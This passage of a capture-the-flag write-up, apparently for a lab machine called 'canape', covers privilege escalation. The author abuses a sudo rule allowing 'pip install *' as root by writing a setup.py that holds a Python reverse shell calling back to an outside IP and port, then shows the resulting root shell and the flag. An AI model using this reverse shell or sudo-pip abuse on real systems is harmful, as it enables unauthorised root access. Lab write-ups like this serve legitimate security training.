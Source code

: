 ### Privilege Escalation of Machine  - From user to root

Here I'm lucky again, no need for enumeration or exploits, just the ultimately basic check:

```
homer@canape:~$ sudo -l
[sudo] password for homer: 
Matching Defaults entries for homer on canape:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User homer may run the following commands on canape:
    (root) /usr/bin/pip install *
```

It seems we can install any python package with pip as root!

So let's create one that will bring me a root shell:

```
$ cd
$ vim setup.py
```

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.63",33333))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/bash","-i"]);
```

Now I just have to install it as root:

```
$ sudo /usr/bin/pip install -e . setup.py
```

Bingo!

```
root@canape:~# cat /root/root.txt
cat  /root/root.txt
928c3df1a12d7f67d2e8c2937120976d
```
